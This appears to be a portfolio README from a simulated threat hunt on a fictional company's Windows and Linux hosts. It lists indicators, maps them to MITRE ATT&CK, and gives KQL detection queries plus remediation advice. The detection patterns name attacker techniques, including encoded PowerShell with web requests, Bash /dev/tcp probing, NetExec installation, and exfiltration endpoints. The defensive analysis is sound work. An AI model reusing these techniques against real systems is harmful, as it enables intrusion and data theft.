
| Indicator | Type | Context | Assessment |
|---|---|---|---|
| `148.64.103.173` | Public IP | External source for valid-account access | Malicious in hunt context |
| `10.2.0.30` | Internal IP | Source of internal NTLM authentication to `npt-ws01` | Compromised/pivot source |
| `loranse` | Hostname | Attacker remote-client name | Suspicious operator artifact |
| `sancadmin` | Account | Valid account used throughout the intrusion | Compromised |
| `status.sync-northpeak.com` | Domain | Scripted check-in channel | Malicious |
| `updates.sync-northpeak.com` | Domain | Secondary C2/status endpoint | Malicious |
| `cdn.sync-northpeak.com` | Domain | Encoded beacon and exfiltration endpoint | Malicious |
| `/api/beacon?id=NPT-WS01&flag=NORTHPEAK-09` | URL path/query | Encoded workstation beacon | Malicious |
| `/api/upload?host=NPT-SRV01&data=customers` | URL path/query | Customer-data upload endpoint | Malicious |
| `NorthpeakSyncTray` | Registry value | Persistence value name | Malicious |
| `C:\ProgramData\Northpeak\NorthpeakSync\Bin\NorthpeakSyncTray.ps1` | File path | Persisted PowerShell script path | Malicious |
| `customer_data_export_20260616.csv` | File | Exfiltrated customer-data export | Sensitive / compromised |
| `netexec` | Tool | Installed on Linux before internal pivot | Suspicious in context |

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Valid Accounts | `T1078` | `sancadmin` successfully authenticated from an external IP |
| Lateral Movement | Remote Services: RDP | `T1021.001` | `RemoteInteractive` Windows sessions |
| Lateral Movement | Remote Services: SSH | `T1021.004` | `sshd` accepted the Linux session |
| Discovery | Permission Groups Discovery | `T1069` | `sudo -l` and `whoami /groups` |
| Discovery | Network Service Discovery | `T1046` | Bash `/dev/tcp` test against TCP `3389` |
| Execution | Unix Shell | `T1059.004` | Bash reachability command |
| Execution | Python | `T1059.006` | `pipx install netexec` through Python |
| Execution | PowerShell | `T1059.001` | Interactive, persistent, beaconing, and exfiltration commands |
| Persistence | Registry Run Keys / Startup Folder | `T1547.001` | `NorthpeakSyncTray` Run-key value |
| Defense Evasion | Obfuscated Files or Information | `T1027` | Base64-encoded PowerShell beacon |
| Defense Evasion | Masquerading | `T1036` | Legitimate-looking sync component names and paths |
| Command and Control | Web Protocols | `T1071.001` | HTTPS `Invoke-WebRequest` beaconing |
| Exfiltration | Exfiltration Over C2 Channel | `T1041` | CSV uploaded to the C2-related CDN domain |

> **Analyst note:** NTLM authentication was observed during the internal pivot. This does not independently prove pass-the-hash, so `T1550.002` should remain a hypothesis unless supporting credential-use evidence is found.

---

## Detection Opportunities

### 1. Interactive PowerShell With High-Risk Flags

```kql
DeviceProcessEvents
| where FileName =~ "powershell.exe"
| where InitiatingProcessFileName =~ "explorer.exe"
| where ProcessCommandLine has_any (
    "-ExecutionPolicy Bypass",
    "-EncodedCommand",
    " -enc ",
    "Invoke-WebRequest",
    "Invoke-RestMethod",
    "-WindowStyle Hidden"
)
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    InitiatingProcessFileName,
    ProcessCommandLine
```

**Detection value:** Identifies user-launched PowerShell with a combination of interactive context and high-risk command flags.

### 2. Suspicious PowerShell Run-Key Persistence

```kql
DeviceRegistryEvents
| where RegistryKey has_any (@"\Run", @"\RunOnce")
| where RegistryValueData contains "powershell"
| where RegistryValueData has_any (
    "-WindowStyle Hidden",
    "-ExecutionPolicy Bypass",
    "-EncodedCommand",
    "ProgramData"
)
| project
    TimeGenerated,
    DeviceName,
    RegistryKey,
    RegistryValueName,
    RegistryValueData,
    InitiatingProcessFileName
```

**Detection value:** Finds PowerShell-based autorun persistence with concealment or policy-bypass indicators.

### 3. Linux Installation of Remote-Administration Tooling

```kql
DeviceProcessEvents
| where OSPlatform =~ "Linux"
| where ProcessCommandLine has_any (
    "pipx install netexec",
    "pip install netexec",
    "pip3 install netexec",
    "apt install crackmapexec",
    "apt-get install crackmapexec"
)
| project TimeGenerated, DeviceName, AccountName, ProcessCommandLine
```

**Detection value:** Detects installation of tooling commonly used for Windows enumeration and remote authentication from Linux.

### 4. Bash `/dev/tcp` Service Discovery

```kql
DeviceProcessEvents
| where OSPlatform =~ "Linux"
| where ProcessCommandLine contains "/dev/tcp/"
| project TimeGenerated, DeviceName, AccountName, FileName, ProcessCommandLine
```

**Detection value:** Identifies scanner-less reachability tests and shell-based network probing.

### 5. Encoded PowerShell With External Web Activity

```kql
DeviceProcessEvents
| where FileName =~ "powershell.exe"
| where ProcessCommandLine has_any ("-EncodedCommand", " -enc ")
| where ProcessCommandLine has_any ("http://", "https://")
    or ProcessCommandLine matches regex @"[A-Za-z0-9+/]{80,}={0,2}"
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    InitiatingProcessFileName,
    ProcessCommandLine
```

**Detection value:** Prioritizes encoded PowerShell that may hide network destinations.

### 6. External RDP by Privileged or Administrative Accounts

```kql
DeviceLogonEvents
| where ActionType contains "success"
| where LogonType == "RemoteInteractive"
| where isnotempty(RemoteIP)
| where not(ipv4_is_private(RemoteIP))
| project
    TimeGenerated,
    DeviceName,
    AccountName,
    RemoteIP,
    RemoteDeviceName,
    Protocol
```

**Detection value:** Surfaces successful external RDP sessions that can otherwise be lost inside failed-logon noise.

### Recommended Tuning

- Maintain allowlists for approved management processes such as known `gc_worker.exe` deployments.
- Compare PowerShell parent process, command content, user context, frequency, and network behavior.
- Alert on rare external source addresses rather than only high failure counts.
- Treat Run-key value names that imitate enterprise software as suspicious when combined with PowerShell.
- Correlate process and network telemetry so command-line-only URLs are not missed.

---

## Containment and Remediation

### Immediate Containment

1. Disable or reset credentials for `sancadmin`.
2. Revoke active sessions and refresh tokens associated with the account.
3. Isolate `npt-ws01`, `npt-srv01`, and `npt-linux01` pending forensic validation.
4. Block `148.64.103.173` and all identified `sync-northpeak.com` subdomains.
5. Remove the `NorthpeakSyncTray` Run-key value.
6. Quarantine and preserve `NorthpeakSyncTray.ps1` for analysis.
7. Remove unauthorized NetExec installation from `npt-linux01` after evidence collection.
8. Preserve the exfiltrated CSV’s file metadata and determine the full affected record set.

### Credential and Access Remediation

- Require MFA for all externally reachable administrative access.
- Prevent direct internet exposure of RDP and SSH where possible.
- Place remote access behind a managed VPN, bastion, or zero-trust access gateway.
- Restrict administrative accounts from interactive logon to ordinary workstations.
- Review whether `sancadmin` requires local administrator rights across multiple systems.
- Investigate how the credentials were obtained and whether they were reused elsewhere.

### Detection and Hardening Improvements

- Enable enhanced PowerShell logging, including Script Block Logging and module logging.
- Retain full command-line and process-tree telemetry.
- Alert on external successful RDP and SSH sessions, not only failures.
- Monitor changes to Run and RunOnce keys.
- Monitor `/dev/tcp`, `pipx install`, and remote-administration tool installation on Linux.
- Establish egress filtering for servers that do not require arbitrary outbound HTTPS.
- Detect new or rare domains that imitate internal brands, updates, synchronization, or CDN services.
- Correlate repeated fixed-interval requests as possible beaconing.

### Business Follow-Up

- Notify data-protection and legal stakeholders of confirmed customer-data exfiltration.
- Determine whether regulatory or contractual breach notification obligations apply.
- Review access logs for downstream use of the stolen data.
- Document the incident timeline, affected records, containment actions, and lessons learned.

---

## Key Lessons

1. **Successful logons matter more than noisy failures.** The failed-logon volume suggested brute force, but the real intrusion authenticated cleanly.
2. **Timelines defeat assumptions.** Linux looked like the natural first foothold, but ordered telemetry showed the Windows workstation came first.
3. **One table is never the whole investigation.** Two C2 domains appeared in process command lines even though network telemetry did not capture them.
4. **Parent process is essential context.** `explorer.exe` identified interactive PowerShell, while `gc_worker.exe` explained repetitive benign encoded commands.
5. **Absence can be evidence.** The lack of defense tampering supported a living-off-the-land model rather than indicating that no compromise occurred.
6. **Encoding alone is not a verdict.** Encoded PowerShell must be decoded and evaluated against lineage, intent, repetition, and network behavior.
7. **Valid accounts can bypass many perimeter assumptions.** MFA, privileged-access restrictions, and successful-logon monitoring are critical.

---

## Skills Demonstrated

This project demonstrates practical ability in:

- Threat-hunt hypothesis development
- Microsoft Sentinel and Defender XDR investigation
- KQL query construction and refinement
- Cross-table telemetry correlation
- Windows and Linux event analysis
- Successful-authentication analysis
- RDP, SSH, NTLM, and lateral-movement investigation
- Process lineage and hands-on-keyboard identification
- PowerShell deobfuscation
- Registry persistence analysis
- Command-and-control identification
- Beacon timing analysis
- Data-exfiltration validation
- MITRE ATT&CK mapping
- Detection-engineering recommendations
- Incident containment and remediation planning
- Evidence-based technical reporting

---

## Investigation Conclusion

The Northpeak Descent hunt confirmed a coordinated cross-platform intrusion conducted with the compromised `sancadmin` account. The attacker used the external address `148.64.103.173` to establish multiple remote footholds, beginning with `npt-ws01` and later accessing Linux and the server. Linux was used for reconnaissance, reachability testing, and NetExec installation before an internal NTLM-authenticated return to the workstation.

On Windows, the attacker used interactive PowerShell, validated group privileges, planted a hidden Run-key persistence command, and established scripted HTTPS communication with three look-alike domains. A Base64-encoded beacon concealed one complete URL. The operation ended with the upload of `customer_data_export_20260616.csv` from `npt-srv01` during the attacker’s second RDP session.

The attacker did not need to disable the defensive stack. Valid credentials, native utilities, common remote-access protocols, and plausible infrastructure names allowed the activity to blend into normal administration. The most important defensive improvements are therefore stronger identity controls, monitoring of successful remote access, cross-source telemetry correlation, PowerShell and autorun visibility, and outbound network restrictions.

---

## Disclaimer and Attribution

This repository documents a **simulated cyber-range investigation** for educational and portfolio purposes. It does not represent a production incident or a real compromise of Northpeak Logistics.

The **Northpeak Descent** community hunt was built by **Dogukan Oruc**. The queries, analysis, conclusions, report structure, and detection recommendations in this README document my own investigation workflow and learning outcomes based on the provided cyber-range telemetry.

No malicious infrastructure in this report should be contacted. All decoding and analysis should be performed offline.
